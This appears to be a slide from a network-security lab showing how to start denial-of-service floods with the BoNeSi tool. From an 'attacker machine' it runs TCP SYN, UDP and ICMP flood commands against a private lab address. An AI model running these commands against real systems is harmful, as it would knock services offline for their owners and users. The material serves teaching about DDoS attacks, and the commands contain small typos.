

In the attacker machine:
Starting the attack:
In the folder bonesi, open terminal and run:
To fire a TCN SYN Flood attack:
sudo bonesi -p tcp -d enp0s3 i 50k-bots 172.16.1.3:80
To fire a UDP flood attack:
sudo bonesi -p udp -d enp0s3 172.16.1.3:80
To fire an ICMP flood request:
sudo bonesi -p icmp -d enp0s3 172.16.1.3:80